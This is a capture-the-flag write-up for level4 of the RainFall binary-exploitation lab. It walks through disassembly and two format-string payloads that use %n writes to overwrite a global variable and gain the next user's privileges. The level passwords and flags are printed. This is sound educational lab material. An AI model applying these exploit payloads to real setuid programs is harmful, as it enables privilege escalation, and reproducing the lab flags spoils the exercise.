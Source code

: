 Login as `level4`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level4
level4@192.168.1.28's password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```
A `SUID` executable is located in the home directory.
```shell
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
Examine defined functions
```gdb
(gdb) info functions
[...]
0x08048444  p
0x08048457  n
0x080484a7  main
[...]
```
Global variable `m` is compared to `0x1025544` value. As it stored in `.bss` section - declared but have not been assigned a value.
```gdb
(gdb) disassemble n
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
```
Here two method to overwrite variable `m` with value `0x01025544`.

The first method, dirty and long, consist in writing 16930116 bytes and use `%n` to write this value (`0x01025544` in Hex) to selected address.
```gdb
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%016930112x%12$n"' | ./level4
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000[...]b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

The second one, is more creative and faster. It consist in writing in each byte of variable `m` which is lay between `0x08049810` to `0x08049813`.
First of all, those byte addresses where values should be written are putted on stack. Then, the value which should be written is divided by bytes `0x44`, `0x55`, `0x02`, `0x01`. It is done to calculate an offset for each value. This offset value would be a number which will be written in carefully-selected address. As addresses were placed previously, they can be selected using direct parameter access `$`.

> `0x44 = 68   | 4+4+4+4+x             = 68  (0x44)  : x = 52` <br>
> `0x55 = 85   | 4+4+4+4+52+x          = 85  (0x55)  : x = 17` <br>
> `0x02 = 2    | 4+4+4+4+52+17+x       = 258 (0x102) : x = 173` <br>
> `0x01 = 1    | 4+4+4+4+52+17+173+x   = 513 (0x201) : x = 255` <br>

Exploit and log on to the next level.
```shell
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "\x11\x98\x04\x08" + "\x12\x98\x04\x08" + "\x13\x98\x04\x08" + "%052x%12$n" + "%017x%13$n" + "%0173x%14$n" + "%0255x%15$n"' | ./level4
00000000000000000000000000000000000000000000b7ff26b0000000000bffff794000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7fd0ff4000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
